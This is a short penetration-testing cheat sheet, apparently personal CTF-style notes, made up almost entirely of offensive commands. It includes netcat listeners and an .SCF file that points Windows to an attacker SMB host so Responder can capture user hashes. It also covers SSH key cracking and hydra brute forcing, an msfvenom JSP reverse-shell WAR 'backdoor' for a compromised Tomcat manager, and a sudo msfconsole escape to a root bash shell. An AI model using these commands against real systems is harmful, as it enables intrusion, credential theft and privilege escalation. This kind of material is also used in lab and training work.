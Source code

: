 
## Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

## Find Exploits with SearchSploit

```
searchsploit servicename version
```

## Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```

## .SCF file to gain user hash (WINDOWS)

```
[Shell]
Command=2
IconFile=\\10.10.14.6\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

listen to response
```
sudo responder -w -I tun0
```

## Metadata

```
exiftool file
```

## Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

# SSH

## SSH with RSA file

```
ssh -i /path/to/file user@IP
```
## Convert id_rsa to crackable

```
python3 /usr/share/john/ssh2john.py id_rsa > file.txt
```

### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


# Apache

## After /manager breach

### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```


# Sudo Metasploit exploit

```
sudo msfconsole
```

```
irb
system("/bin/bash")
```
